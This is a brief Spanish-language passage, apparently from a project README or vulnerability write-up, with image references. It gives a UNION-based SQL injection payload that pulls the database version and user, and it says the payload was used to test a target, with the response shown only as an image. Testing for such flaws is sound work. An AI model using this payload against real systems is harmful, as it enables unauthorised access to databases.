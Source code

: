 ![howto](howto.png)

Este es el exploit utilizado para probar si es vulnerable o no:

`" union select @@version,2,user(),4 -- -`

Lo usamos aquí y obtuvimos esta respuesta:
![user_version](user_version.png)
